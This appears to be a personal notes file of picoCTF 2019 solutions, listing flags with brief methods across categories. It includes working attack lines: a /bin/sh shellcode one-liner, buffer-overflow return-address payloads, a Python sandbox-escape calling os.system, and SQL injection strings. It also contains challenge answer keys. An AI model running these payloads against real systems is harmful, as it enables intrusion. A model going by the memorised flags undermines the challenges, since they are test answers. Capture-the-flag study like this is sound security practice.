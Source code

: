 #PicoCTF_keys
=======================================
#if you have python keyword restriction than just parse them
print(().class.bases[0].subclasses()[59].init.func_globals['linecache'].dict['o'+'s'].dict['sy'+'stem']('cat flag.txt'))
		[OR]
print(().class.bases[0].subclasses()[40]("flag.txt").read())






###General
==================


#What's the difference:-  cmp -bl file1.jgp file2.jpg
picoCTF{th3yr3_a5_d1ff3r3nt_4s_bu773r_4nd_j311y_aslkjfdsalkfslkflkjdsfdszmz10548}



###Binary Exploitation
============================

#practice-run-1
picoCTF{g3t_r3adY_2_r3v3r53}


#handy-shellcode :-  inside shell server of picoCTF game run this cmd: 
#(echo -en "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\n"; cat) | ./vuln
picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}


#OverFlow0 :- ./vuln `python -c 'print "a"*133'`
picoCTF{3asY_P3a5y4a888b8e}


#OverFlow1 :-    https://0xrick.github.io/binary-exploitation/bof3/
check the function (objdump -d ./vuln or inside gdb using 'info functions'). There is function named 'flag' take its address and call it at the end of buffer. 
cmd:-     python -c "print 'A'x76+ '\xe6\x85\x04\x08'" | ./vuln
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a21b59fb}


#OverFlow2 :-
#cmd:-  python -c "import struct;print 'A' * 188 + struct.pack('<I', 0x080485e6) + '\x00'*4 + struct.pack('<I', 0xDEADBEEF) + struct.pack('<I', 0xC0DED00D)" | ./overflow2
picoCTF{arg5_and_r3turn5ce5cf61a}



#NewOverFlow1 :- here binary is of 64bit so we have to put 8 bytes and on shell server increase one byte for flag() address[replace: 0x0000000000400767-->0x0000000000400768]
#cmd:-  python -c "import struct;print('A'*72 + struct.pack('I',0x0000000000400768) ) "| ./newoverflow2
picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_d0b837aa}



#NewOverFlow2 :- binary is 64bit, on shell server increse one byte for flag() address [replace: 0x000000000040084d --> 0x000000000040084e]
python -c "import struct;print('A'*72 + struct.pack('I',0x000000000040084d) )"| ./newoverflow2
picoCTF{r0p_1t_d0nT_st0p_1t_e51a1ea0}






###Forensics
================

#Glory of the Garden :- cat		[OR]  hexdump -C garden.jpg |grep -A 4 -B 2 CTF
picoCTF{more_than_m33ts_the_3y3f089EdF0}


#unzip
picoCTF{unz1pp1ng_1s_3a5y}


#so meta :-  cat	[OR]  hexdump -C pico_img.png  |grep -A 3 pico
picoCTF{s0_m3ta_ffd09c0f}


#extensions :- 'file' cmd
picoCTF{now_you_know_about_extensions}


#shark on wire 1 :-  src=10.0.0.2, dst=10.0.0.12, Length=60, No.=63
picoCTF{StaT31355_636f6e6e}


#like1000 :- File named tar_opener.py
picoCTF{l0t5_0f_TAR5}


#What-lies-within :-  zsteg tool	[OR]  	{https://stylesuxx.github.io/steganography/ }
picoCTF{h1d1ng_1n_th3_b1t5}


shark on wire 2 :-
picoCTF{StaT31355e





###Crytography  
==================


#The Numbers :- letters with their sequence numbers
picoCTF{THENUMBERSMASON}


#Easy1:- Vernam Cipher OR Vigenere Cipher [ciphertext=UFJKXQZQUNB , key=SOLVECRYPTO]
picoCTF{CRYPTOISFUN}

#13 :- rot13
picoCTF{not_too_bad_of_a_problem}


#caeser :- caeser cipher
pico{crossingtherubicongysimakx}


#la cifra de
>>> https://guballa.de/vigenere-solver
picoCTF{b311a50_0r_v1gn3r3_c1ph3r1119c336}


#Flags :- nautical flag alphabet
PICOCTF{F1AG5AND5TUFF}

#Mr-Worldwide:-  get location using cordinates and flag is the first letters of the city
picoCTF{KODIAK_ALASKA}


#Tapping:- morse code
PICOCTF{M0RS3C0D31SFUN3960854397}


#rsa-pop-quiz:- 	https://the-rsa-tron.koorkevani.repl.co/   [ n=pxq , totient(n)=(p-1)x(q-1) , create ciphertext using python ="pow(plaintext,e,N)" ] finally convert plaintext/numbers[14311663942709674867122208214901970650496788151239520971623411712977120619528460123336291453] to hex using python3=  "hex(number)" than hex to ascii online.
picoCTF{wA8_th4t$_ill3aGal..of4878474}



#waves over lambda :-    [iywbelgp fzez hp cyne xtlb - xezanzwic_hp_i_ymze_tlsvul_xuhhhenvel]    https://quipqiup.com/
picoCTF{frequency_is_c_over_lambda_fdiiirubra}




###WEB Exploitation
======================
https://github.com/qihaoooooo/picoCTF-2019/blob/master/web.md


#Insp3ct0r :- check all source code pages
picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?e85ef63c}


#dont-use-client-side :-  check source code
picoCTF{no_clients_plz_90ff34}


#logon :- intercapt the request and change username=admin and admin=True for each request
picoCTF{th3_c0nsp1r4cy_l1v3s_6679fcb5}


#Where are the robots :- robots.txt
picoCTF{ca1cu1at1ng_Mach1n3s_0ecd0}


#Client-side-again :- source code, check 'var 0x5a46' and guess the flag
picoCTF{not_this_again_d29871}


#picobrowser :-
picoCTF{p1c0_s3cr3t_ag3nt_3e1c0ea2}


#open-to-admins :-  add new parameters while requestin /flag [ ;admin=True;time=1400]
picoCTF{0p3n_t0_adm1n5_cc661e91}


#Irish-Name-Repo 1 :-  [' or 1=1 -- ] /  [admin' -- ]   
picoCTF{s0m3_SQL_1fe77718}


#Irish-Name-Repo 2 :-  [ admin' -- ]
picoCTF{m0R3_SQL_plz_752d1173}


#Irish-Name-Repo 3 :-  burpsuit, passwd is encrypted using rot13 [rot13 of ' or 1=1 --  ==> ' BE 1=1 -- ]
picoCTF{3v3n_m0r3_SQL_a9766759}




###Reverse Engineering
===========================

#vault-door-training
picoCTF{w4rm1ng_Up_w1tH_jAv4_fcb79c48f5b}


#vault-door1
picoCTF{d35cr4mbl3_tH3_cH4r4cT3r5_63ef3a}


#vault-door3
picoCTF{jU5t_a_s1mpl3_an4gr4m_4_u_5baf7c}


#vault-door4
picoCTF{jU5t_4_bUnCh_0f_bYt3s_80f8e1e047}


#vault-door5 :- base64 decode --> url decode
picoCTF{c0nv3rt1ng_fr0m_ba5e_64_c14cce11}





###DO IN THE LAST
==========================
General Skills: whats_the_difference
CryptoGraphy:- Flags, Easy1